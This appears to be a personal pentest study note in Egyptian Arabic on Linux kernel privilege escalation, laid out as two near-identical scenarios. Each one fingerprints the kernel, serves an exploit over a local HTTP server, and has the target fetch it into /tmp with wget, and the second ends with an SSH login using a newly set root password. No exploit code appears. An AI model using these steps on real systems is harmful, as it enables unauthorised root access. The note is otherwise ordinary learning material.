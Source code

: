 قبل م تعمل اي حاجه في ال Post-Exploitation  
ابدا بال Linux kernel exploits

# اول سيناريوا انك هتنزل ثغره وثغره دي هتخليك root علي طول

### 1. اول حاجه تعملها انك تعمل الامر ده علشان تعرف نوع جهاز المستخدم 

```
uname -a
```

### 2. ثم تعمل اي الاوامر دي علشان تعرف معلومات علي ال kernel اكثر 

```
lsb_release -a
```
 
 بالاوامر دي انت عرفت معلومات كثير علي ال os

### 3. روح اعمل exploit علي معلومات دي بال [[manual Exploitation]]


### 4. # بعد م نزلت الثغره انت محتاج تشغلها علي جهاز ال target

#### 1.  بروح اعمل ال ip بتاعي يكون موقع 
```
python3 -m http.server
```

#### 2. بخش جوه المجلد tmp ليه لانه بيعمل الاوامر منغير permetions
```
cd tmp
```



#### 3. بروح اخلي الtarget ينزل ملف الثغره من الموقع بتاعي 

```
wget http://192.168.230.251:8000/9542.c
```

#### 4.  شغل الثغره بقي حسب نوع لغه الثغره

شوف الطريقه من ال [[manual Exploitation]]


---

# ثاني سيناريوا انك هتنزل ثغره وثغره دي هتخليك تحط باسورد لل root


### 1. اول حاجه تعملها انك تعمل الامر ده علشان تعرف نوع جهاز المستخدم 

```
uname -a
```

### 2. ثم تعمل اي الاوامر دي علشان تعرف معلومات علي ال kernel اكثر 

```
lsb_release -a
```
 
 بالاوامر دي انت عرفت معلومات كثير علي ال os

### 3. روح اعمل exploit علي معلومات دي بال [[manual Exploitation]]




### 4. # بعد م نزلت الثغره انت محتاج تشغلها علي جهاز ال target

#### 1.  بروح اعمل ال ip بتاعي يكون موقع 
```
python3 -m http.server
```

#### 2. بخش جوه المجلد tmp ليه لانه بيعمل الاوامر منغير permetions
```
cd tmp
```



#### 3. بروح اخلي الtarget ينزل ملف الثغره من الموقع بتاعي 

```
wget http://192.168.230.251:8000/9542.c
```

#### 4.  شغل الثغره بقي حسب نوع لغه الثغره

شوف الطريقه من ال [[manual Exploitation]]

#### 5. وانت بتشغل الثغره هتلاقي بيقولك اعمل باسورد لل root مثال :
![[Pasted image 20250315173114.png]]
انت اللي عملت الباسورد ف بتروح لل ssh وتحاول تخش باسم ال root والباسورد اللي انا عملته 